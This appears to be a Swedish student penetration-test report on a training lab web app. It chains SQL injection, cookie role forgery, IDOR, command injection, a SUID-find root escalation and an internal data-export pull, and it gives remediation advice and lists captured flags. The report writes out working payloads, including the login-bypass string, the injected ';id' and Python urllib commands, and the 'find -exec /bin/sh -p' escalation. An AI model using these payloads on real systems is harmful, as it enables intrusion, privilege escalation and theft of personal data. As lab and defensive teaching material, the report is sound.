




# Pentest-rapport – Team 3

**Datum:** 2026-10-20<br>
**Rapportversion:** 1.1 – uppdaterad med privilege escalation
**Senast uppdaterad:** 2026-10-29<br>
**Utförare:** Team 3<br>
**Mål:** `http://10.0.0.6:8080`<br>
**Klassning:** TLP:AMBER (delas bara med teamet och utbildaren)<br>
**Omfattning:** Vi testade den tilldelade måltavlan och den interna tjänst som nåddes genom den avsedda attackkedjan, enligt godkända testregler (RoE). Vi försökte inte slå ut tjänster, lämna kvar åtkomst eller testa andra system.

> **Dokumenthantering:** Rapporten innehåller flaggor, interna adresser och fungerande testpayloads. Den får inte läggas i ett repo som andra studenter kan läsa. Rådata med namn, personnummer och löner har medvetet utelämnats.

## Sammanfattning

Vi hittade de fyra ursprungliga applikationsbristerna och den efterföljande privilege escalation-vägen. Bristerna kan kombineras: först kringgås inloggningen, sedan kan användaren göra sig till administratör och köra systemkommandon som `appuser`. En felaktigt SUID-konfigurerad `find`-binär gav därefter effektiva root-rättigheter. Från webbcontainern gick det även att nå en intern exporttjänst och läsa känsliga personuppgifter. Samtliga fem labbflaggor hittades.

## Rapportöversikt

| Nyckeltal | Resultat |
|---|---:|
| Bekräftade fynd | 10 |
| Kritiska fynd | 5 |
| Hittade flaggor | 5 |
| Steg i attackkedjan | 7 |

Riskfördelningen består av fem kritiska, ett högt, tre medelhöga och ett lågt fynd. De kritiska fynden utgör halva den identifierade attackytan och möjliggör tillsammans en fullständig kedja från autentiseringsbypass till dataexfiltration.



*Figur 1: Samlad statistik över fyndens allvarlighetsgrad och de sju stegen i attackkedjan.*

### Så hänger bristerna ihop

```text
SQL-injektion
    ↓
Inloggning utan rätt lösenord
    ↓
Manipulerad adminroll i cookies
    ↓
Åtkomst till adminsidan
    ↓
Kommandoinjektion som appuser
    ↓
SUID-find ger euid=0 (root)
    ↓
Intern tjänst nås från webbcontainern
    ↓
Känsliga uppgifter kan exporteras
```

IDOR-bristen kan testas separat och visar att en användare kan läsa en annan användares profil.

| ID | Fynd | Allvarlighet | Status |
|---|---|---:|---|
| RT-01 | SQL-injektion i inloggningen | Kritisk | Bekräftad |
| RT-02 | Broken Access Control via manipulerbara cookies | Kritisk | Bekräftad |
| RT-03 | IDOR: någon annans profil kan läsas | Hög | Bekräftad |
| RT-04 | Kommandoinjektion som `appuser` | Kritisk | Bekräftad |
| RT-05 | Privilege escalation via SUID-`find` | Kritisk | Bekräftad |
| RT-06 | SQL-fel och frågetext exponeras | Medel | Bekräftad |
| RT-07 | Osäkra sessionscookies | Medel | Bekräftad |
| RT-08 | Okrypterad HTTP och saknade säkerhetsheaders | Medel | Bekräftad |
| RT-09 | Server- och versionsläckage | Låg | Bekräftad |
| RT-10 | Attackkedjans effekt: intern dataexfiltration | Kritisk | Bekräftad |

## Metod

- Tjänstekartläggning med `nmap -Pn -sV -p 8080 10.0.0.6`.
- Manuell granskning i Firefox via SSH-portforwarding.
- Lågintensiv kontroll med `curl` av kända och vanliga webbrutter.
- Ett litet och ofarligt bevis per allvarligt fynd.
- Ingen lösenordsattack, massenumerering eller påverkan på tillgänglighet. Endast den specifika konfigurationsfil som behövdes för attackkedjan lästes.



*Figur 2: Nmap bekräftade att port 8080 var öppen och körde Werkzeug 3.1.9 med Python 3.12.15.*

### Avgränsningar

- Resultaten är en ögonblicksbild från testtillfället.
- Endast den tilldelade webbappen och attackkedjans angivna interna exporttjänst testades.
- Inga belastnings-, överbelastnings- eller uthållighetstester utfördes.
- Vi skapade ingen persistens och ändrade eller raderade ingen information.
- Fler profil-ID:n än vad som behövdes för att bevisa IDOR-bristen samlades inte in.

### Bedömning av allvarlighetsgrad

- **Kritisk:** kan ge obehörig administratörsåtkomst, kodkörning eller omfattande dataläckage.
- **Hög:** ger direkt åtkomst till känsliga uppgifter utan rätt behörighet.
- **Medel:** underlättar angrepp eller försämrar skyddet tydligt.
- **Låg:** begränsad direkt påverkan men ger användbar information till en angripare.

<!-- PAGEBREAK -->

## RT-01 – SQL-injektion i inloggningen

**Vad betyder det?** Applikationen satte ihop en databasfråga direkt från texten i användarnamnsfältet. Därför kunde vi skriva SQL-kod som gjorde att lösenordskontrollen hoppades över.

**Verifiering:**

```text
Användarnamn: admin' OR '1'='1' --
Lösenord: test
Resultat: HTTP 302 till /dashboard
```

**Konsekvens:** En angripare kan logga in utan att känna till lösenordet.

**Klassning:** CWE-89, MITRE ATT&CK T1190.

**Åtgärd:** Använd parametriserade SQL-frågor, generell felhantering och tester som blockerar injektionspayloads.

## RT-02 – Trasig åtkomstkontroll via cookies

**Vad betyder det?** Webbläsaren lagrade användar-ID och roll i cookies som användaren själv kunde ändra. Servern litade på värdena utan att kontrollera dem. När vi satte `uid=1` och `role=admin` kunde vi öppna `/admin`.

**Verifiering:**

```bash
curl -H 'Cookie: uid=1; role=admin' http://10.0.0.6:8080/admin
```

**Konsekvens:** Obehörig administratörsåtkomst och möjlighet att nå diagnostikfunktionen.



*Figur 3: Manipulerade cookies gav åtkomst till administrationssidan och dess labbflagga.*

**Klassning:** CWE-602/CWE-284, OWASP A01 Broken Access Control.

**Åtgärd:** Spara rollen på servern. Webbläsaren ska bara få ett slumpmässigt och signerat sessions-ID. Servern måste kontrollera behörigheten vid varje skyddad begäran.

## RT-03 – IDOR: någon annans profil kan läsas

**Vad betyder det?** Adressen `/profile?id=1` använde ID-numret från webbadressen utan att kontrollera vem som var inloggad. Profil, roll och löneuppgifter visades även utan inloggning.

**Så verifierades det:**

```text
http://10.0.0.6:8080/profile?id=1
```

**Konsekvens:** Obehöriga kan läsa person- och anställningsuppgifter. Vi provade bara ID 1 och räknade inte upp fler användare.

**Klassning:** CWE-639, OWASP A01 Broken Access Control.

**Åtgärd:** Kräv inloggning och kontrollera att användaren har rätt att läsa just den efterfrågade profilen.

## RT-04 – Kommandoinjektion som appuser

**Vad betyder det?** Fältet ”Värd att pinga” skickades direkt till Linux-skalet. Ett semikolon gjorde att vi kunde lägga till ett eget kommando efter det tänkta ping-kommandot.

**Minimal och ofarlig verifiering:**

```text
127.0.0.1; id
```

Servern svarade:

```text
uid=10001(appuser) gid=10001(appuser) groups=10001(appuser)
```

**Konsekvens:** En angripare kan köra godtyckliga kommandon med webbappens användare och kartlägga containern efter hemligheter och eskaleringsvägar.

**Klassning:** CWE-78, MITRE ATT&CK T1059.004.



*Figur 4: Kommandoinjektionen gav läsåtkomst till labbappens konfiguration. Bilden visar RCE-flaggan och adressen till den interna exporttjänsten. Inloggningsuppgifterna tillhör testappen.*

**Åtgärd:** Skicka aldrig användarens text till ett shell. Kontrollera att värdet är en giltig IP-adress eller ett värdnamn och kör processen med en argumentlista.

## RT-05 – Privilege escalation via SUID-find

**Vad betyder det?** `/usr/bin/find` ägdes av root och hade SUID-biten aktiverad. Det gjorde att `find` kunde starta ett skal med effektiva root-rättigheter trots att webbappen kördes som `appuser`.

**Verifiering:**

```text
find / -perm -4000 -type f 2>/dev/null
ls -l /usr/bin/find
-rwsr-xr-x 1 root root 233040 Aug 10 2024 /usr/bin/find
```

Den minst förstörande verifieringen läste endast den avsedda flaggfilen:

```text
/usr/bin/find . -exec /bin/sh -p -c 'id; cat /root/flag5.txt' \; -quit
```

Resultatet bekräftade eskaleringen:

```text
uid=10001(appuser) gid=10001(appuser) euid=0(root) groups=10001(appuser)
FLAG{privesc_root_t3_b89a3256}
```

**Konsekvens:** En angripare med RCE som `appuser` kan få effektiva root-rättigheter i containern och läsa filer som endast root ska kunna läsa.

**Klassning:** CWE-250 och CWE-732. MITRE ATT&CK T1548.001.

**Spår:** Körning av `find`, `/bin/sh -p`, läsning av `/root/flag5.txt` och en process med effektiv UID 0.

**Åtgärd:** Ta bort SUID-biten från `/usr/bin/find`, bygg imagen med minsta möjliga paket och filrättigheter samt använd `no-new-privileges` och borttagna Linux capabilities.

## RT-06 – SQL-fel exponeras

När `/profile` öppnades utan ett ID visade servern ett tekniskt fel med delar av SQL-frågan. Sådan information hjälper en angripare att förstå databasen.

**Klassning:** CWE-209.

**Åtgärd:** Returnera generiska fel till klienten och logga detaljer endast serverside.

## RT-07 – Osäkra sessionscookies

Inloggningen satte följande cookies:

```text
Set-Cookie: uid=1; Path=/
Set-Cookie: role=admin; Path=/
```

De saknade `HttpOnly`, `Secure` och ett säkert `SameSite`-värde. Enkelt uttryckt var de för lätta att läsa, skicka och manipulera.

**Åtgärd:** Ersätt dem med en signerad sessionsidentifierare och sätt `HttpOnly; Secure; SameSite=Lax` eller striktare.

## RT-08 – Transport- och webbläsarskydd saknas

Applikationen använde okrypterad HTTP. Den saknade också webbläsarskydd mot bland annat klickkapning, feltolkning av filtyper och vissa scriptattacker.

**Åtgärd:** Använd HTTPS och inför lämpliga säkerhetsheaders. Dessa är kompletterande skydd och ersätter inte säker kod eller korrekt auktorisering.

## RT-09 – Versionsläckage

HTTP-svaret exponerade:

```text
Server: Werkzeug/3.1.9 Python/3.12.15
```

**Åtgärd:** Dölj onödiga versionsdetaljer och använd en produktionsanpassad WSGI-server bakom en härdad reverse proxy.

## RT-10 – Attackkedjans effekt: lateral rörelse och dataexfiltration

**Vad betyder det?** Efter att kommandoinjektionen hade bekräftats kunde webbcontainern användas som en språngbräda till en intern tjänst. Konfigurationsfilen `secret_config.py` avslöjade adressen `http://internal:8000/export`.

`curl` saknades i containern, men den installerade Python-tolken kunde göra samma HTTP-anrop:

```text
;python -c "import urllib.request; print(urllib.request.urlopen('http://internal:8000/export').read().decode())"
```

Den interna tjänsten svarade med JSON som innehöll flagga 4 samt känsliga medarbetaruppgifter som namn, personnummer och löner. Personuppgifterna återges inte i rapporten.

**Konsekvens:** En angripare som komprometterar webbappen kan röra sig vidare i det interna nätet och föra ut känsliga data.

**Klassning:** CWE-200 och CWE-284. MITRE ATT&CK T1041.

Detta redovisas separat för att tydliggöra konsekvensen. Vägen möjliggjordes av RT-04 tillsammans med otillräcklig nätverksisolering och en oskyddad intern exportfunktion.

**Åtgärd:** Begränsa utgående trafik från webbcontainern med NetworkPolicy och brandväggsregler. Kräv stark autentisering och behörighetskontroll på exporttjänsten, minimera exporterad data och lagra inte interna adresser eller hemligheter i läsbara konfigurationsfiler.

## Hittade flaggor

```text
FLAG{sqli_foothold_t3_ac1200a4}
FLAG{broken_access_control_t3_deb0d4cc}
FLAG{rce_command_injection_t3_a8c519b8}
FLAG{internal_pii_exfil_t3_5833c5c1}
FLAG{privesc_root_t3_b89a3256}
```

Samtliga fem flaggor har bekräftats. Flagga 4 visade lateral rörelse och dataexfiltration. Flagga 5 bekräftade privilege escalation från `appuser` till effektiv root i webbcontainern.

## Kort ordlista

- **SQL-injektion:** användarens text förändrar en databasfråga.
- **Cookie:** liten uppgift som webbplatsen sparar i webbläsaren.
- **Åtkomstkontroll:** kontroll av vad en användare får läsa eller göra.
- **IDOR:** servern visar ett objekt utifrån ett ID utan rätt behörighetskontroll.
- **Kommandoinjektion/RCE:** användarens text får servern att köra ett operativsystemkommando.
- **SUID:** filrättighet som gör att ett program kan köras med filägarens effektiva behörighet.
- **Root:** kontot med högsta behörighet i Linux.
- **CWE:** standardnummer för en typ av säkerhetsbrist.
- **MITRE ATT&CK:** modell som beskriver tekniker som angripare använder.

<!-- PAGEBREAK -->

## Rekommenderad prioritering

1. Stäng eller isolera `/admin/diag` och ta bort shell-exekveringen.
2. Ta bort SUID från `/usr/bin/find` och inför `no-new-privileges`.
3. Åtgärda SQL-injektionen med parametriserade frågor.
4. Ersätt klientstyrda roller med serversession och central auktorisering.
5. Skydda `/profile` med autentisering och objektkontroll.
6. Kör tjänsten som icke-root och inför HTTPS, säkra cookies och headers.
7. Isolera webbcontainern från interna tjänster och skydda exporttjänsten med autentisering.
8. Kör regressionstester för samtliga fynd före återöppning.

## Evidens

- Nmap-resultat för port 8080.
- Skärmbild av flagga på dashboard efter SQL-injektion.
- Skärmbild av manipulerade cookies och adminflaggan.
- Skärmbild med `uid=10001(appuser)` från diagnostikfunktionen.
- Skärmbild som visar SUID-rättigheten, `euid=0(root)` och flagga 5.
- Sanerad skärmbild eller logg som visar svaret från den interna exporttjänsten och flagga 4.
- HTTP-svar som visar SQL-fel, cookieattribut och saknade headers.

Råevidens kan innehålla känsliga uppgifter och ska inte läggas i ett publikt repository utan sanering.

## Slutsats

Målet hade fyra ursprungliga applikationsbrister och en separat privilege escalation-väg som tillsammans gav en komplett attackkedja från extern webbåtkomst till effektiv root i containern och läsning av känsliga interna uppgifter. Den största risken var att flera svaga kontroller förstärkte varandra: osäker SQL, klientstyrd behörighet, bristande objektkontroll, shell-exekvering, felaktig SUID-konfiguration och fri åtkomst till en intern exporttjänst.

Miljön bör inte betraktas som åtgärdad förrän huvudbristerna har rättats, SUID-vägen har tagits bort, intern trafik har begränsats och samtliga reproduktionssteg ger ett säkert avslag i regressionstester.
